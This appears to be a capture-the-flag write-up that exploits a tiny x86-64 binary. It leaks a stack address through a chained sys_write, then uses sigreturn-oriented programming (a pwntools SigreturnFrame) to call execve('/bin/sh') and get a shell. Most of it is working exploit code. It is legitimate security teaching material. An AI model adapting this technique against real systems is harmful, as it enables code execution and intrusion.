






# 1st step: Leak_Stack

We have to call back start func 



Next time we have to set `rax` = 1 so we cant xor `rax` again -> call `0x4000b3`

Because of the `rax` have to be `1` to call `sys_write` -> send `1` byte



Now `rsi` point to `rsp` so we have to send back `0x3b` -> not change value of `rsp`



Now when it call sys_write, 0x400 bytes value of `rsi` pointer have printed



Because i have use sigrop -> have to set `/bin/sh` string but dont have any in prog yet -> find stack addr because i write it in stack next time



Find the nearest addr with `rsi`



Double check!

script for this step: 

```
syscall = 0x4000be
payload = flat(
    0x4000b0,0x4000b3,0x4000b0,
)
GDB()

p.send(payload)
p.send(b"\xb3")
p.recv(0x1a8)
leak = int.from_bytes(p.recv(8),"little")
print(hex(leak))
```

# 2nd step: Sig_ROP

```
BINSH_addr = leak + 272
print(hex(BINSH_addr))
frame = SigreturnFrame()
frame.rax = 0x3b
frame.rsp = syscall
frame.rip = syscall
frame.rdi = BINSH_addr
frame.rdx = 0
frame.rsi = 0

payload = flat(
    0x4000b0,
    syscall,
    bytes(frame),
    b"/bin/sh\x00",
)
p.sendline(payload)                 # set up register

payload = p64(syscall)              
payload = payload.ljust(0xf,b"\xaa")
p.send(payload)                     # sysread -> rax = 0xf -> sigFrame
p.interactive()
```

we have to call sys_read again -> call main again and send 0xf bytes -> rax = number of bytes we send

call to sig_rop and get shell